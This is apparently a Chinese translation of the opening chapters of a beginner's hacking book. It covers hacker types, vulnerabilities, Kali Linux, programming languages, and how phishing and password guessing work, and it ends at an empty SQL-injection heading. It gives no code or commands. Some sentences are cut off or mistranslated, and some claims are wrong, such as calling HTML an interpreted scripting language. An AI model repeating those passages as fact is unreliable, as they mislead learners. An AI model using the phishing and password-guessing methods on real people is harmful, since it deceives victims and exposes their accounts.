# 计算机黑客初学者指南：如何破解无线网络、基础安全与渗透测试、Kali Linux 以及你的第一次攻击



# 为什么你应该读这本书

正如人类历史上的任何其他技术进步一样，世界计算机化和数字化为人类带来的利益是随着代价的。我们能存储和传输的信息越多，它就越容易被盗取或破坏。我们的生活对技术以及快速、即时通信的依赖程度越高，失去这些能力的后果就越大。在眨眼之间将数十亿美元的资金转移到海外不仅是可能的，而且事实上已是常态。整个图书馆都可以存储在没有人类拇指还大的设备上。看到幼儿在智能手机或平板电脑上玩平庸的游戏已不稀奇，而这些设备的计算能力比 50 年前填满整个房间的机器还要强大。

这种数据和数字财富前空前的集中，加上社会对数字存储和通信手段日益增长的依赖，为渴望利用每一个漏洞的精明和恶意机会主义者带来了一场大宴。从实施小偷小摸和欺诈的个人到政治活动分子、大型且组织严密的犯罪集团、恐怖组织和国家级行为者，计算机黑客攻击已成为一个数十亿美元的产业——不仅体现在犯罪行为本身，还体现在保护信息和资源上投入的时间、精力和资本。在当今，计算机安全的影响怎么强调都不过。城市和国家的关键基础设施与计算机网络密不可分。日常金融交易记录以数字形式存储，其被盗或删除可能对整个经济造成破坏。敏感的电子邮件通信在向公众发布可能会影响政治选举或法律案件。所有潜在漏洞中或许最令人担忧的是军事领域，那里日益网络化和计算机化的武器必须不惜一切防止落入别法之手。这些高风险威胁还伴随着规模较小但具有累积影响的违规，如身份盗窃和个人信息泄露，这些对普通人的生活造成了毁灭性的后果。

并不是所有黑客都有恶意意。在言论自由受限或法律压迫的国家，黑客负责传播可能被媒体抑制的重要信息。（此处原文存在大量重复文本，已根据要求进行逻辑处理翻译）。

本书从第一章“什么是黑客攻击？”开始，介绍了一些基础定义，以便读者熟悉一些语言和术语。第一章还从伦理和法律意图的角度区分了不同类型的黑客。

## 第 1 章 什么是黑客行为？

在对计算机黑客行为进行正式介绍之前，首先讨论一些常用术语并消除对其含义的歧义是非常重要的。计算机专业人士和资深爱好者往往使用许多术语，这些术语是在传统上非常封闭且排他的圈子里多年演变而来的。如果不了解这些术语产生的背景，某些术语的含义并不总是清晰的。虽然本章绝非完整的词典，但它介绍了黑客和计算机安全专业人士之间使用的一些基础语言。其他术语将在后续章节的相应主题中出现。这些定义中没有任何一个是所谓的“官方”的，而是对它们常用用法的理解。

本章还试图澄清黑客行为作为一种活动是什么、它是什么以及黑客是谁。流行文化中对黑客的描述和讨论往往会对黑客或黑客行为整体描绘出一个过于简化的形象。事实上，在流行语和大众误解的翻译过程中，准确的理解丢失了。

## 黑客与黑客行为

“hacking”一词通常会让人联想到一个孤独的网络犯罪分子，蜷缩在电脑前，随心所欲地从毫无防备的银行转账，或轻而易举地从政府数据库下载敏感文件。在现代英语中，`hacking` 一词根据上下文有几种不同的含义。从一般用途而言，该词通常是指利用计算机安全漏洞获取对系统未经授权的访问的行为。然而，随着网络安全作为一项主要行业的兴起，计算机黑客行为不再仅仅是犯罪活动，而且通常由认证专业人士执行，他们被专门要求通过测试各种渗透方法来评估计算机系统的漏洞（参见下一节关于“白帽”、“黑帽”和“灰帽”黑客的内容）。此外，出于国家安全的目的黑客行为也已成为许多国家许可（无论是否被承认）的活动。因此，对该术更广泛的理解应该承认，黑客行为通常是经过授权的，即使相关的入侵者正在破坏访问系统的正常过程。

“hacking”一词更广泛的使用涉及对任何物体、过程或技术进行修改、非常规的使用或破坏性访问——而不仅仅是计算机或网络。例如，在黑客亚文化的早期，一种流行的活动是“破解”公共电话或自动售卖机以便无需付费即可获得访问——并与整个黑客社区分享这样做的方法。将通常被丢弃的家用物品投入新的创新的用途的简单行为（使用空汽水罐作为笔筒等）通常被称为 `hacking`。即使是日常生活中某些用的过程和快捷方法，例如使用待办事项列表或寻找创新的方法为产品和服务省钱，通常被称为 `hacking`（通常称为“生活黑客”）。遇到“黑客”一词来指任何在计算机使用方面特别有才华或知识的人也是很常见的。

本书将集中在专门通过非意图手段获取软件、计算机系统或网络访问权限的黑客概念。这包括从用于确定密码的最简单形式的社会工程，到用于高级渗透的复杂硬件和软件。因此，“黑客”一词将指任何（无论授权与否）试图秘密访问计算机系统或网络的个人，而不考虑他们的伦理意图。“`cracker`”（破解者）一词也经常用来代替 `hacker`——特指那些试图破解密码、绕过软件限制或其他其他方式规避计算机的人。

## 黑客的“帽子”

好莱坞关于美国旧西部的经典场景通常对持枪的对手进行漫画化的描绘——通常是警长或治安官对阵恶毒的匪匪或一群恶徒。通过牛仔帽的颜色来区分“好人”和“坏人”是很常见的。勇敢的主角通常戴白色帽子，而反派则戴深色或黑色的帽子。这种形象在过去的几十年里延续到了其他文化方面，并最终进入了计算机安全的术语。

## 黑帽

黑帽黑客（或破解者）是指在已知违背所有者意愿的情况下，明确试图破坏计算机系统（或源代码）或信息网络安全的人。黑帽黑客的目标是获得对系统的未经授权访问，以获取或破坏信息、导致运行中断、拒绝合法用户访问，或夺取控制权用于自己的目的或防止他人访问——在交出控制权之前勒索所有者支付赎金。即使黑客具有他们自己描述的高尚意图，由于他们也被认为是黑帽。换句话说，为了社会或政治目的进行黑客行为的黑客是黑帽，因为他们打算利用他们发现的任何漏洞。同样，敌对国家出于战争目的进行黑客行为的实体无论其理由或所属国家的国际地位如何，都可以被视为黑帽。

## 白帽

由于访问计算机和网络有如此多创意且意想不到的方法，通常发现可利用弱点的唯一方法是在具有恶意意图的人之前尝试破解系统，以避免造成不可修复的损害。白帽黑客获得目标系统所有者或管理者的专门授权来发现并测试其漏洞。这被称为渗透测试。白帽黑客使用与黑帽黑客相同的工具和程序，通常具有平等的知识和技能。事实上，前黑帽找到白帽的合法工作并不罕见，因为黑帽通常在系统渗透方面拥有丰富的实践经验。众，政府机构和公司雇用曾受起诉的计算机犯罪分子来测试关键系统。

## 灰帽

顾如其名，“灰帽”（通常写为“`grey`”）一词在描述黑客伦理特征方面稍不具体。灰帽黑客并不一定拥有所有者或管理者的许可，因此在尝试检测安全漏洞时可能被认为行为不伦理。然而，灰帽执行这些行动并非意图利用这些漏洞或帮助他人这样做。相反，他们实际上是在进行未经授权的渗透测试，目的是提醒所有者任何潜在的缺陷。通常，灰帽黑客是为了加强他们使用的系统，或防止未来具有更恶意意图的行为者进行破坏而进行黑客行为。

## 黑客行为的后果

未经授权访问的后果从日常信息安全的微小成本和不便，到极其危险甚至致命的情况不等。虽然被捕并起诉的黑客可能会受到严厉惩罚，但整个社会承担了恶意黑客行为带来的财务和人员成本。由于现代世界的互联互通性，一个坐在咖啡馆里、拿着笔记本电脑的聪明的个人就可以对生命和财产造成巨大破坏。理解黑客行为的后果是重要的，以便将精力集中在预防某些计算机犯罪上。

## 犯罪性

当然，对于被发现入侵计算机系统或网络的黑客会有法律后果。具体的法律和处罚在国家以及各个州和市之间有所不同。法律的执行在各国之间也不同。有些政府根本不优先考虑网络犯罪的起诉，特别是受害者不在本国时。这使得许多黑客在世界某些地区不受法罚地运作。事实上，一些先进国家拥有元素

在某些政府内部，黑客行为是一项规定的职能。一些军事和民用安全及执法机构设有部门，其任务是入侵外国对手的敏感系统。当其中某些机构侵入本国公民的私人文件和通信时，会引发争议，往往会导致政治后果。

非法黑客的处罚很大程度上取决于违规行为本身的性质。未经授权他人的私人信息，其惩罚可能比为了窃钱、破坏设备或实施叛国而访问要轻。黑客窃取或传播个人、敏感或机密信息已引发了备受关注的诉讼。

## 受害者

黑客攻击的受害者范围很广，从社交媒体上相对无害的恶作剧，到因个人照片或邮件公开而公开难脸的人，再到盗窃、破坏性病毒和勒索的受害者。在更严重的黑客攻击中，敏感信息的泄露或关键基础设施的破坏威胁了国家安全，整个社会都是受害者。

身份盗用是最常见的计算机犯罪之一。黑客针对毫无防备的个人的个人信息，并利用这些数据获取私利或将其卖给他人。受害者在看到信用卡或银行账户出现未经授权的操作之前并不知道自己的信息已被泄露。虽然黑客通常通过针对个人受害者获取个人数据，但近年来，一些复杂的犯罪分子能够通过入侵拥有百万客户账户的零售商和在线服务提供商的服务器，访问大规模的个人和财务信息数据库。这些高引起的数据泄露在金钱上成本巨大，而且损害了目标公司的声誉，动摇了公众对信息安全的信任。类似的数据泄露导致了个人邮件和照片的公开传播，通常导致受害者感到尴尬、关系破裂并失去工作。

## 预防成本

在预防黑客攻击方面存在一个经典的“捕鼠性困境”（`Catch-22`）。对于大多数人来说，只需一些常识、警惕性、良好的安全习惯和一些免费软件就能免受大多数攻击。然而，随着云计算的普及（文件被存储在个人设备之外或代替个人设备的外部服务器上），个人对自身数据安全的控制权减少了。


这给云服务器维护者保护日益增多的中心化个人信息带来了巨大的财务负担。

因此，大型公司和政府实体经常发现自己每年在计算机安全上花费的资金等于他们在普通攻击中可能损失的资金。尽管如此，这些措施是必要的，因为一次成功的、大规模且复杂的攻击——无论可能性有多小——都可能产生灾难性的后果。同样，希望保护自己免受网络罪犯侵害的人会购买安全软件或身份盗用保护服务。这些成本，加上练习良好信息安全习惯的时间，可能会成为一种不受欢迎的负担。

## 国家与全球安全

工业控制系统对网络计算机和设备的依赖日益增加，加上关键基础设施日益互联的特性，使得工业国家的关键服务极易受到网络攻击。市政电力、水务、污水、互联网和电视服务可能会被破坏者干扰，其目的是政治活动、勒索或恐怖主义。即使是这些服务的短期中断也可能导致人员或财产损失。核能电厂的安全特别受到关注，正如我们近年来看到的，黑客可以在常用的电子元件中植病毒以破坏工业机械。

银行系统和金融交易网络是黑客的高价值目标，无论他们是寻求财务利益还是为了给竞争对手带来经济动荡。一些政府已经开始部署自己的黑客进行电子战。政府和军事黑客的目标还包括日益网络化的车辆和军器。电子组件在进入坦克、战舰、战斗机、空中无人机或其他军事车辆之前，就可能被生产线上的黑客破解——因此政府必须对供应链中的承包商保持谨慎。敏感邮件、电话或卫星通信也必须防止敌对手的侵害。不仅是国家对先进军事系统构成威胁，恐怖组织也变得日益复杂，并转向更具技术的方法。

# 第 2 章 漏洞与利用

黑客攻击的本质是利用计算机、设备、软件组件或网络安全中的缺陷。这些缺陷被称为漏洞（`vulnerabilities`）。黑客的目标是发现系统中的漏洞，以便他们最容易地访问或控制系统以实现其目的。一旦了解了漏洞，就可以开始对这些漏洞进行利用，即黑客利用系统获取访问权限。通常，黑帽黑客和白帽黑客意图利用漏洞，尽管目的不同，而灰帽黑客会尝试通知所有者，以便采取措施保护系统。

## 漏洞

计算和网络系统的漏洞总是存在，也将将一直存在。没有系统可以做到 `100%` 的滴无不入，因为总有人需要访问被保护的信息或服务。此外，人类用户的存在本身就代表了一种漏洞——人们在执行良好的安全习惯方面是出了名的糟糕。随着漏洞被发现和修复，新的漏洞会立即取而代之。黑客利用与安全措施实施之间的往复代表了一场真正的军备竞赛，双方都变得日益复杂。

## 人为漏洞

一个很少被讨论的漏洞是人类用户漏洞。大多数计算机和信息系统的用户不是计算机专家或网络安全专业人员。大多数用户对于其接口点与他们访问的数据或服务之间发生的情况知之甚少。要让大规模范围内的人改变习惯，并使用推荐的实践来设置密码、仔细审查邮件、避免恶意网站以及保持软件更新，是非常困难的。企业和政府机构花费了大量时间和资源培训员工遵循适当的信息安全程序，但链条中只需要一个弱环节就能为黑客提供他们寻找的窗口。

最先进、昂贵的防火墙和网络入侵防御系统，在内部用户点击恶意链接、打开邮件附件中的病毒、插入受感染的闪盘，或简单地通过电话或电子邮件泄露密码时，都会失效。即使被反复提醒良好的安全实践，普通用户也是最容易被发现和利用的漏洞。有时，人为漏洞仅仅是由于不安全，例如将密码写在纸条上，甚至贴在硬件上。使用易猜密码是另一个常见错误。一个特定的公司系统被破解，是因为一个聪明的黑客故意在公司停车场留了一个 `USB` 闪盘。当一个毫无防备的员工发现它并插入计算机时，随后释放了病毒。大多数人在事件发生之前不会认真对待计算机安全，即使在之后，他们也会回到原来的习惯。黑客知道这一点，并尽可能地利用它。

## 软件漏洞

所有计算机都依赖软件（某些设备上称为“固件”）将输入或命令转化为行动。软件管理用户登录、执行数据库查询、执行网站表单提交、控制硬件和外围，并管理其他可能被黑客利用的计算机和网络功能。除了程序员会犯错和疏忽之外，软件开发人员无法预见到代码中所有可能的漏洞。开发人员所能希望的是在发现漏洞时对软件进行补丁和修改。这就是为什么保持软件更新如此重要。

由于软件漏洞源于编程错误，但大多数仅仅是因为设计中未预料的缺陷。软件通常是安全的当按照设计使用时，但不可预且非意的输入、命令和条件的组合往往会导致意料之外的后果。如果没有严格控制用户与软件的交互方式，许多软件漏洞是错误或随机被发现的。黑客将尽可能地发现这些异常情况视为一种业务。

## 漏洞利用 (`Exploits`)

发现并利用漏洞获取系统的访问权限既是一门艺术也是一门科学。由于信息安全的动态性质，黑客与安全专业人员之间、甚至国家级对手之间，正进行着持续的“猫鼠游戏”。为了保持领先（或至少不落后太多），人们不仅必须了解最新的技术和漏洞，还能够预测黑客和安全人员如何对整体格局的变化做出反应。

## 访问 (`Access`)

利用的共同目标是获取对目标系统的访问和某种程度的控制。出于安全考虑，许多系统具有多个级别的访问，通常每个访问级别都有自己的系列漏洞，而且对于黑客来说，达到超级用户或 `root`（一个 `UNIX` 术语）级别——在黑客语言中被称为“获取 `root`”——要困难得多。最高级别允许用户控制给定自包含系统中的所有系统、文件、数据库和设置。

在单个漏洞利用中破解安全计算机系统的 `root` 可能是非常困难的。更多时候，黑客会利用更容易利用的漏洞，或利用经验较少的用户首先获取层级访问。从该点开始，可以采用进一步的方法从管理员一直提升到 `root` 权限。拥有 `root` 权限后，黑客可以随心所欲地查看、下载和覆盖信息，在某些情况下还可以删除他们曾进入过系统的痕迹。因此，在目标系统中获取 `root` 是黑帽和白帽黑客之间视为最高成就的自豪点点。

## 拒绝访问 (`Denying Access`)

在许多情况下，访问特定的目标系统是不可能的、极其困难的，或者不是黑客所想要的。有时，黑客的目标仅仅是防止合法用户访问网站或网络。这种活动被称为拒绝服务（`DoS`）。由于其执行相对简单，它通常是由于缺乏经验的黑客（术语中称为“新手指”、“脚本小子”或“初级者”）为了获得一些吹牛资本而进行的的入门练习。更有经验的黑客可以执行持续的 `DoS` 攻击，导致商业或政府服务器长时间中断。因此，有组织的黑客团体经常将网站作为“人质”，并向所有者索要赎金以停止攻击，而无需获得访问权限。

# 第 3 章 入门 (`Getting Started`)

黑客被誉为高智力个体，并在许多方面都是过人。因此，从零开始并达到任何实际的熟练水平似乎是一项不可重负且艰巨的任务。人们必须记住，在学习某个科目或技能时，每个人必须从某个地方开始。通过投入和坚持，在黑客世界中可以随心所欲。在成为黑客的过程中非常有帮助的一点是设定一些目标。问问自己为什么想学习黑客，以及你想完成什么。有些人只想学习基础知识，以便了解如何保护自己、家人或业务免受恶意攻击。另一些人则在为自己的白帽黑客或信息安全职业做准备。无论你的理由何，都应该准备好学习很多新知识和技能。

## 学习 (`Learning`)

黑客武器库中最重要的武器是知识。黑客不仅需要尽可能学习关于计算机、网络和软件的知识，而且为了保持竞争力和效率，他们必须跟上计算机和计算机安全不断且快速的变化。黑客不必成为工程师、计算机科学家，或对微处理器或计算机硬件设计有深入了解，但他们应该理解计算机的工作原理、主要组件以及它们如何相互作用、计算机如何在本地以及通过互联网进行网络、用户通常如何与机器交互，以及最重要的是——软件如何运行。优秀的黑客精通多种编程语言并理解主要的操作系统。对于只有一定经验的人来说，了解密码学的历史和数学也是非常有用的。

## 计算机与处理器 (`Computers` and `Processors`)

计算机在尺寸、形状和目的上各异，但大多数都有独特的设计。例如，最大的三个制造商是英特尔、`AMD` 和摩托罗。某些处理器是可以由用户编程的。这些被称为现场可编程门阵列 (`FPGA`)，并被越用广泛。

## 网络与协议 (`Networking` and `Protocols`)

对于健身黑客来说，最重要的科目之一是网络架构和协议。可以通过不同的配置和规模进行网络。从铜线、光纤到无线和卫星连接，以及所有介质的组合，我们建立了一个庞大的网络。这个网络可以从全球范围内整体理解，也可以被视为较小网络的连接。

无论架构或传输介质如何，当两个终端在网络上通信时，它们必须使用一种

一组被称为协议（`protocol`）的通用规则。网络协议自第一批计算机网络创建以来一直在不断演变，但它们保留了相同的底层分层方法。通常来说，网络被概念化为执行不同功能的不同层。这也被称为栈（`stack`）。今天使用的最常见的通信协议是互联网协议（`IP`）和传输控制协议（`TCP`）。将它们合在一起，通常被称为 `TCP/IP`。这些协议偶尔会更改并进行标准化。对于黑客来说，学习这些协议以及它们与栈中不同层之间通信的关系至关重要。黑客正是通过这种方式获得对系统更高级别的访问权限。

## 编程语言

对于从未做过编程的人来说，从零开始学习编程语言可能看起来令人生畏畏，但许多人发现，一旦你精通了一门编程语言，学习其他语言就会变得容易且快捷。黑客不仅需要理解编程语言以便利用软件漏洞，许多黑客还需要编写自己的代码以能够执行特定的攻击。阅读、理解和编写代码是黑客技术的基础。


编程语言的范围很大，从非常晦涩的机器码（以二进制和十六进制格式表示，直接与处理器通信）到用于软件开发的高级面向对象语言。常见的高级面向对象语言有 `C++` 和 `Java`。用高级语言编写的代码会被编译成适用于特定处理器的机器码，这使得高级语言在不同类型的机器之间具有非常好的移植性。另一类是脚本型语言，其命令是逐行执行的，而不是编译成机器码。

学习编程语言需要时间和练习——没有其他办法可以让你变得精通。漫长的夜晚以及编写、调试和重新编译代码的通夜马拉松，是初级黑客共同的成年礼。

## 第 4 章：黑客的工具箱

即使拥有了知识、机智和恰到好处的固执坚持，黑客仍然需要某些物理工具来实施攻击。然而，黑客攻击并不一定是一项昂贵的职业或爱好。黑客需要的大多数软件工具都可以免费获得，因为它们是开源产品。黑客也不需要数千美元的高性能计算设备——对于大多数攻击，一台具有合理内存、存储和处理器速度的简单笔记本电脑或台式电脑就足够了。几十年来，黑客因以相对低预算完成大量工作而闻名昭彰。虽然每个人都需要自己决定实现其特定目标所需的什么样的硬件和软件组合，但本章将作为一个指南，帮助理解黑客社区中有哪些不同的选择和首选方案。

## 操作系统与发行版

操作系统（OS）是计算机硬件和软件之间的中间产物。操作系统通常负责管理文件系统、外设通信和用户账户等职责。有多个品牌的操作系统（包括商业的和源）可以安装在任何给定的计算机平台上。`微软 Windows` 是“PC”型系统最广为人知且安装最多的商业操作系统。苹果拥有自己的操作系统，预装在它的计算机和移动系统中。`谷歌的开源 Android` 正在迅速流行。

`Linux` 操作系统以 `Linus Torvalds`——黑客文化中的传奇人物——命名并开发，它是 `UNIX` 操作系统（苹果的操作系统也基于 `UNIX`）的开源分支。多年来，`Linux` 凭借其灵活性和可移植性在黑客和硬核计算机爱好者中广受欢迎。通过用户的不断折腾，各种不同的 `Linux` 发行版为了不同的目的而演变。发行版通常通过其大小、用户界面、硬件驱动程序和预装的软件工具来相互区分。一些流行的 `Linux` 发行版，如 `红帽（Red Hat）` 和 `Ubuntu`，是通用的。另一些是针对特定任务和平台开发的。黑客“攻击”平台上的操作系统是其工具箱的核心。

## `Kali Linux`

`Kali` 原名为 `Backtrack`，是黑客常用的流行的开源操作系统。`Kali`（最新版本的 `Kali Linux` 发行版可以在 `www.kali.org/downloads` 找到）或从另一个操作系统内的虚拟机中运行。多年来，`Kali` 已经演变成包含大量最实用的漏洞评估和利用程序。它是初级黑客应该获取的第一批工具之一。`Kali` 不仅提供了使用 `Linux` 平台练习的机会，还包含了黑客执行某些最基础的底层攻击所需的一切，以获得宝贵的经验。



带有工具菜单的 `Kali Linux` 截图

## 取证发行版

`Linux` 操作系统也有几个免费的发行版，旨在用于计算机取证分析。这些发行版包含了工具，允许安全专业人员在受害者机器上寻找计算机攻击的痕迹。黑客在练习攻击时也会使用这些发行版，以便学习如何避免被发现。

### 虚拟机

`虚拟机`（Virtual machines）是在现有操作系统的限制模拟某些硬件平台行为的程序。这允许用户在单台硬件上安装多个操作系统，将每一个视为一个独立的机器。维护虚拟机不仅让黑客具备了运行各种不同黑客工具的能力，还提供了一个在无后果的“沙盒”中练习黑客技术的机会。练习攻击的一种常用技术是安装一个与潜在目标虚拟机同类的操作系统，并练习攻击该系统的已知漏洞，甚至证明更多。可以很容易获得旧的、已废弃的操作系统的免费版本——一些较旧的 `Windows` 版本——以及

## 编程语言

计算机是人类的仆人，但如果没有清晰的指令，它们不知道做什么。由于机器的二进制语言对人类来说非常难以理解，我们开发了更接近人类语言的语言。计算机语言已经从简单的逐行脚本演变为更模块化的语言，再到高级的面向对象语言。由于程序是由人编写的，它们难免会出现错误。这些错误不仅是无意的失误，也是程序本身的疏忽。这些错误正是黑客在尝试获取访问权限时寻找的。因此，对于黑客来说，精通几种重要的语言并至少基本熟悉其他语言是至关重要的。这些工具大部分是开源的，并以某种形式免费提供。

## 面向对象语言

面向对象语言是高度结构化和模块化的。面向对象语言代码中的单条语句如果没有程序其他部分的上下文是无法运行的。这就是为什么面向对象语言必须使用编译器将程序翻译成机器码，计算机才能理解。虽然这对于更大、更复杂的程序很有用，但对于较短的编程任务来说可能大此小一且浪费浪费时间。面向对象语言围绕这样一个想法：计算机程序中的不同组件可以被视为具有某些属性的对象。这些属性可以通过称为方法（methods）的过程进行操纵，对象可以被放在各种类（classes）中。学习面向对象编程是职业黑客学习过程的重要组成部分。大量在线和线下软件都是使用 `C++` 和 `Java` 等面向对象语言开发的。当黑客熟悉这些语言时，理解用这些语言编写程序的漏洞并随后利用它们就变得可能。此外，黑客经常发现自己需要编写自己的软件来自动化攻击，或者在获得访问权限后帮助控制或传输数据。

## 解释型语言

相反，解释型语言（很大程度上）由计算机逐行执行，允许快速纠正和更直观的调试。最流行的解释型语言之一是 `Python`。一种免费、开源

作为开源项目，`Python` 因其简单性、灵活性和可移植性而广全球受欢迎。黑客经常使用 `Python` 来帮助他们自动化某些经常在命令行中执行的任务。`Python` 就像开源软件一样，根据预期用途有多个发行版本。这些不同的版本包含了各种预定义的模块（或包），这些模块可以组合在 `Python` 脚本中。

对黑客来说，其他重要的解释型语言还包括脚本语言，如 `HTML`、`JavaScript`、`Perl`、`PHP` 和 `Ruby`。这些语言用于开发 Web 应用程序。正是 Web 应用程序中的漏洞，在很大程度上让黑客能够访问目标网站。

## 数据库查询语言

黑客的一个共同目标是获取私人或机密数据。服务器在被称为数据库的组织化结构中存储大量数据。数据库有自己的语言，在访问数据时，这种语言会被用于其他编程语言的代码中。例如，如果一个 Web 应用程序需要访问或更改某个用户的个人信息，它将需要向数据库发送用该数据库相应语言编写的命令。这些命令被称为查询。用于在线应用程序的最常用的数据库语言之一是结构化查询语言，即 `SQL`。多年来，利用 `SQL` 漏洞一直是黑客访问网站及其包含的数据最常用的方法之一。

随着程序员们意识到 `SQL` 的漏洞，他们付出了巨大努力来修复这些漏洞，因此一些较简单的攻击已不再常见。理解 `SQL` 和其他数据库查询语言是黑客的另一项基本工具。可以在黑客的测试机上建立 `SQL` 服务器，以练习各种攻击方法。

## 第 5 章 获取访问

在大多数情况下，黑客的目标是获取未经授权的系统访问权限。实现这一目标最好的方法是利用身份验证系统的漏洞。这些漏洞在大多数情况下要么存在授权用户的习惯中，要么存在目标服务器运行软件的代码中。黑客非常擅长快速发现并学习如何利用漏洞，而新漏洞似乎在旧漏洞被修复的同时同样迅速出现。特别是大型且复杂的系统，可能甚至存在多个尚未被发现的漏洞。优秀的安全专业人员学习如何像黑客一样思考，以便在黑黑客利用之前预判他们所保护的系统可能出现的问题。本章将阐述人类用户和软件中一些常见的传统漏洞的利用示例。

## 社会工程学

人类用户往往是计算机安全“杀伤链”中最薄弱的环节。许多用户对他们正在使用的系统了解甚少，但他们也对网络威胁的本质缺乏足够的认识，并且没有花时间和精力去保护自己。尽管人们正开始意识到这一点，但周围仍然有足够的人类目标供黑客利用。社会工程学是指利用简单的侦察或欺骗直接从毫无防备的用户获取密码或访问权限的活动。社会工程学对技术专长的要求很少，黑客更喜欢涉及侵入性方法的更困难且风险更高的攻击。

## 被动获取密码

最简单的社会工程学类型可能是猜测个人的登录密码。尽管有警告，用户仍继续使用包含常见或易猜字符序列的密码。这种做法之所以如此普遍，主要原因是人们倾向于想要他们容易记住的密码。大多数人在家庭和工作中都有好几个邮箱和用户账户，很难跟踪所有的账户，因此可能对多个账户使用相同（或相似）密码。当黑客成功获取密码时，这种做法使他们所有的账户陷入危险。常见的密码错误包括：使用自己的名字或家庭成员、宠物的名字、使用字典中常见的单词、使用与自己或亲人生日相对应的数字序列、包括居住地址的部分内容、使用喜爱的运动队名称以及其他容易记忆的主题。在现代社会，这种做法特别为糟糕的理由之一是，互联网上存在大量可以轻松获取的公开信息。只需看一眼个人的社交媒体页面，通常就能发现大量关于他们的宝贵信息。当某人允许其社交媒体简介公开可见时，它就成了黑客完善密码猜测的完美来源。用于猜测密码的个人数据也可以通过“翻找垃圾”（dumpster diving）的手段获得，即黑客在目标用户的垃圾中翻找含有敏感信息的纸质文件。密码安全已成为一个如此严重的问题，以至于越来越多需要密码的（注：此处原文可能漏词）的网站、在线账户、邮箱服务和其他系统已开始对密码的格式和内容实施严格限制。


更具互动性的社会工程学涉及黑客进行的某种程度的监控或侦察。如果黑客可以物理接触目标系统的所在地，他们可能会尝试在用户输入登录信息时观察他们。这在口语中被称为“窥肩偷”（`shoulder surfing`），因为涉及从背后窥视用户的肩膀。

## 钓鱼、鱼叉式钓鱼与大捞鱼

互联网的通用匿名性会让人们产生一种虚假的安全感，让他们参与一些在面对面时绝不会参与的行为。如果一个陌生人敲门，声称是其银行的代表并索要保险箱的钥匙，这个人很可能会被迅速关在门外。尽管如此，每天都有成千上万的人通过网络、电子邮件、电话和短信向欺诈黑客泄露他们的个人和登录信息。

黑客获取用户信息的一种常用方法是钓鱼（`phishing`）过程。按照黑客术语中奇特的命名传统，`phishing` 是“`fishing`”（钓）的同音词，其名称源于这种做法类似于在水中挂上鱼钩，等待鱼上钩。典型的钓鱼邮件写得类似于来自银行、在线购物或服务账户，甚至是来自受害者组织内部部门的合法通信。通常，邮件会向用户呈现确认或重置密码的请求。复杂的钓鱼信息会使用伪造的邮件头、具有信服力的语言和与合法邮件几乎相同的格式。如果目标用户落入陷阱，他们用用户名和密码回复邮件，或者点击进入看似合法的表单的网页链接。通常，一次钓鱼攻击会部署成千上万封邮件，希望至少有一小部分接收者做出回应。

与钓鱼不同，钓鱼是向多个用户发送大量相同的邮件，就像在许多鱼中挂诱饵；而鱼叉式钓鱼（`spear-phishing`）针对特定的用户——正如鱼叉钓鱼民瞄准单条鱼。虽然鱼叉式钓鱼不像钓鱼攻击那样产生大量的账户，但它的成功率更高，因为更具个性化的邮件通常更具说服力。执行良好的鱼叉式钓鱼邮件通常会称呼用户的姓名，并包含其他个人细节使其看起来更真实。因此，在鱼叉式钓鱼攻击之前，通常会有研究或社会工程行为。在大多数情况下，进行这种攻击是因为黑客已经确定目标个体拥有他们特别感兴趣的信息、资产或计算机访问权限。终极鱼叉式钓鱼攻击针对组织中的高价值目标——通常是具有顶级访问权限的高管或信息官。因为这些个人是“大鱼”，这种类型的攻击已被称为鱼叉（`harpoons`）或大捞鱼（`whaling`）。钓鱼、鱼叉式钓鱼和大捞鱼攻击不仅是为了获取密码。有时它们被用于收集其他信息或向目标系统传递恶意软件。

## Web 漏洞

有很多种 Web 漏洞和相关的攻击手段——随着旧漏洞的修复，新的漏洞也随之涌现。几十种语言以各种组合组合在一起创建一个网站或 Web 应用程序，漏洞可能存在于该结构的任何地方。这里列出了一些常见攻击的示例，说明了黑客如何利用漏洞为自己牟利。

## SQL 注入

